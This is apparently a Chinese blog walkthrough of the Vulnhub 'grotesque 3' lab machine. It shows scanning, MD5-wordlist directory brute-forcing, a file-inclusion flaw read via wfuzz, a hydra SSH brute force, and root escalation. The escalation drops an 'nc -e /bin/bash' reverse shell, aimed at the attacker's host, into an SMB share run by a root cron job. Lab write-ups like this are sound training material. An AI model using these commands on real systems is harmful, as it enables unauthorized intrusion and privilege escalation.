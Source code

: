 ```yaml
---
layout: post
title: grotesque 3
subtitle: grotesque 3
date: 2025-07-18 16:00
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 3, max 4, 1.1., auto
---
```

### 1. 信息搜集

IP扫描，发现主机 `192.168.163.142`

![image.png](https://img.ghostliner.top/mCSICN.png)

端口扫描，发现80、22端口

```shell
nmap -A -p- 192.168.163.142
```

![image.png](https://img.ghostliner.top/8D8uXo.png)

目录扫描，但未扫到任何东西

```shell
dirsearch -u http://192.168.163.142 -e* -i 200
nikto -h 192.168.163.142
dirb http://192.168.163.142
```

访问网站，发现链接

![image.png](https://img.ghostliner.top/8pFKYf.png)

访问链接： <http://192.168.163.142/atlasg.jpg> 发现一张图片

从图片中找有字符的地方

![image.png](https://img.ghostliner.top/cPcVDy.png)

有 `M` ，`D` 和5个 `X`，暗示MD5

使用atlasg、atlasg.jpg 和图片文件的MD5值尝试访问失败

### 2. 目录爆破

生成MD5的目录字典

```shell
for i in $(cat /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt); do echo $i | md5sum >> md5.txt; done
```

vim删除多余字符

```vim
:%s/  -//g
```

```shell
dirsearch -w md5.txt -u http://192.168.163.142 -f php
```

![image.png](https://img.ghostliner.top/QMVN2d.png)

<http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php>

```shell
wfuzz -w /usr/share/wordlists/rockyou.txt -u http://192.168.163.142/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=/etc/passwd --hw 0
```

发现文件包含漏洞

![image.png](https://img.ghostliner.top/LMjc9X.png)

发现用户：`freddie`

![image.png](https://img.ghostliner.top/qviORT.png)

尝试日志注入，无法获取日志文件，尝试爆破ssh

### 3. SSH爆破

使用之前生成的MD5字典进行爆破

```shell
hydra -l freddie -P md5.txt ssh://192.168.163.142
```

![image.png](https://img.ghostliner.top/F8whFB.png)

获得密码：`61a4e3e60c063d1e472dd780f64e6cad`

ssh登陆成功，发现日志文件目录权限高，无法访问

![image.png](https://img.ghostliner.top/GLqBEW.png)

查看家目录

![image.png](https://img.ghostliner.top/3cRIWy.png)

查看flag文件

![image.png](https://img.ghostliner.top/D60gui.png)

查看端口服务，发现139、445

```shell
ss -tnlp
```

![image.png](https://img.ghostliner.top/D6Kbdx.png)

使用 smbclient 访问 SMB 服务中的文件共享

```shell
smbclient -L 127.0.0.1
```

发现目录 `grotesque`

![image.png](https://img.ghostliner.top/aVknwb.png)

查看，无内容

![image.png](https://img.ghostliner.top/caTICs.png)

下载pspy64 [DominicBreuker/pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy?tab=readme-ov-file) 监控Linux进程和定时任务

上传到目标机

![image.png](https://img.ghostliner.top/AIFk9w.png)

```shell
chmod +x pspy64
./pspy64
```

发现每分钟以root身份执行`/smbshare`目录下脚本

![image.png](https://img.ghostliner.top/dwYK0C.png)

### 4. root提权

添加自定义脚本，反弹shell

```shell
echo 'nc -nv 192.168.163.132 4444 -e /bin/bash' > shell.sh
```

直接写入无权限，利用smb传入脚本文件

```shell
smbclient //127.0.0.1/grotesque
put shell.sh
```

![image.png](https://img.ghostliner.top/k86oxf.png)

kali开启监听 `nc -lvp 4444`

连接成功获取到flag

![image.png](https://img.ghostliner.top/P5Gqum.png)
